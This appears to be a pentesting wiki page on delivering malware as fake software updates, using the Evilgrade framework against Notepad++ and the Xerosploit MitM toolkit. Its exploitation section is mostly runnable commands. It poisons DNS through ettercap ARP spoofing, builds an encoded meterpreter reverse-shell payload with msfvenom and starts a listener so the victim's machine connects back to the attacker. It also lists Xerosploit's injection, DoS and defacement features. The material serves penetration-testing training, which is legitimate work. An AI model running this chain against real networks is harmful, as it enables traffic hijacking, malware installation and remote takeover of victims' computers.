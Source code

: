 # 🟨 Malicious Update

#### Presenting the victim with a malicious payload as a software update package.

## <mark style="color:red;">IRS-Evilgrade</mark>

{% embed url="https://github.com/infobyte/evilgrade" %}

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. It comes with pre-made binaries (agents), a working default configuration for fast pentests, and has it's own WebServer and DNSServer modules. Easy to set up new settings, and has an autoconfiguration when new binary agents are set.

#### This framework comes into play when the attacker is able to make hostname redirections (manipulation of victim's dns traffic), and such thing can be done on 2 scenarios:

**Internal scenery:**

* Internal DNS access
* ARP spoofing
* DNS Cache Poisoning
* DHCP spoofing
* TCP hijacking
* Wi-Fi Access Point impersonation

**External scenery:**

* Internal DNS access
* DNS Cache Poisoning

#### installation

```
apt install irs-evilgrade
evilgrade
```

#### start/stop web and DNS server

```
evilgrade> start
evilgrade> stop
```

#### list available modules

```
evilgrade>show modules
```

#### Configure a specified module

```
evilgrade>conf sunjava
evilgrade(sunjava)>
```

#### Show all VirtualHosts.

VirtualHost field contains the domains that our webserver is going to emulate for us.

```
evilgrade>show vhosts
```

#### Show options of current module.

**agent:** This is our fake update binary, we have to set the path to where it's located or implement a dynamic fake update binary generation (see ADVANCED).

```
evilgrade(sunjava)>show options
```

#### Show status and victims logs

```
evilgrade>show status
```

### <mark style="color:orange;">Exploitation</mark>

we'll look at manipulating the update process of the popular text editor Notepad++. First, we'll use Ettercap to create a MitM attack position and impersonate the notepad-plus.sourceforge.net server used to check for update availability and to deliver the updated software.

Ettercap includes support for manipulating DNS responses, spoofing the DNS response for any hostname you specify in the etter.dns file. On the top of this slide we append to the etter.dns file an A record for "notepad- plus.sourceforge.net," pointing to the attacker at 10.10.10.10

```
echo "notepad-plus.sourceforge.net" A 10.10.10.10" >> /etc/ettercap/etter.dns
```

Next we invoke Ettercap using ARP spoofing to create a MitM attack using the arguments we examined earlier. After Ettercap starts, press "p" to list the available plugins (the list shown on this slide has been trimmed for space). To load the dns\_spoof plugin, which will leverage the etter.dns file to obtain the list of hosts to impersonate, enter the plugin name "dns\_spoof" and press Enter.

```
sudo ettercap -YqM arp:remote /10.10.10.1-254// /10.10.10.1-254//
```

Evilgrade delivers malicious code with local web server

{% hint style="info" %}
Default is agent.exe in isr-evilgrade/agent directory.

Replace this file (Notepad clone) or change the "agent" parameter in the module.
{% endhint %}

```
cd /usr/share/irs-evilgrade/agent
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=8080 -f exe --platform windows -e x86/shikata_ga_nai -a x86 > agent.exe
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.56.1; set lport 8080;exploit"
```

The LHOST argument used by the attacker can be set to a specific IP address to launch the listener on a specific interface, or it can be set to 0.0.0.0 to listen and accept connections on all interfaces. In this example, we take advantage of the msfconsole "-x" argument, which allows us to specify all the arguments on the command line, separated by semicolons. Be sure to include quotes around these arguments, as shown in the example on this page, to prevent the shell from interpreting the semicolons as additional shell commands.

#### run evilgrade and configure notepadplus module:

```
evilgrade
evilgrade> conf notepadplus
evilgrade(notepadplus)>show options
```

![](<../../.gitbook/assets/image (296) (1) (1) (1).png>)

```
evilgrade(notepadplus)>start
```

we invoke the "evilgrade" executable to invoke the handler for the Notepad++ software update process. At the "evilgrade>" prompt, enter "conf notepadplus" to invoke the Notepad++ handler. For any Evilgrade module, running "show options" will display configuration information and options that can be manipulated using the "set" command, such as the filename to an alternative executable to deliver to the attacker. Finally, launch the module by issuing the "start" command, which will invoke the Evilgrade web server.

![](<../../.gitbook/assets/image (276) (1).png>)

Evilgrade will log to standard output the status of client requests for updates, as shown on this slide. The first log entry indicates that the Notepad++ client requested the getDownLoadUrl.php page, which checks for an available update. The second entry indicates the client's request for the executable file to download and install, followed by the delivery of the agent/agent.exe file to the victim.

{% hint style="info" %}
Evilgrade-like techniques are still possible, but the proliferation of HTTPS makes upgrade attacks a little more difficult. If a pen tester notices a MitM situation is possible during an update, they are more likely to create a custom script that performs the replacement, rather than use a framework.
{% endhint %}

### <mark style="color:orange;">Demo</mark>

{% embed url="https://www.youtube.com/watch?ab_channel=Unownsec&v=nReKwL93Fnk" %}

## <mark style="color:red;">Xerosploit</mark>

{% embed url="https://github.com/LionSec/xerosploit" %}

Xerosploit is a penetration testing toolkit whose goal is to perform man in the middle attacks for testing purposes. It brings various modules that allow to realise efficient attacks, and also allows to carry out denial of service attacks and port scanning.

### <mark style="color:orange;">features:</mark>

* Port scanning
* Network mapping
* Dos attack
* Html code injection
* Javascript code injection
* Download intercaption and replacement
* Sniffing
* Dns spoofing
* Background audio reproduction
* Images replacement
* Drifnet
* Webpage defacement and more ...

#### installation

```
git clone https://github.com/LionSec/xerosploit
cd xerosploit && sudo python install.py
sudo xerosploit
```

### <mark style="color:orange;">Demo</mark>

{% embed url="https://www.youtube.com/watch?ab_channel=Neodrix&v=35QUrtZEV9U" %}

## <mark style="color:red;">Combine with BeFF and Metasploit</mark>

{% embed url="https://sploitech.com/exploiting-tools/how-to-do-advanced-mitm-attacks-with-beef-xerosploit" %}

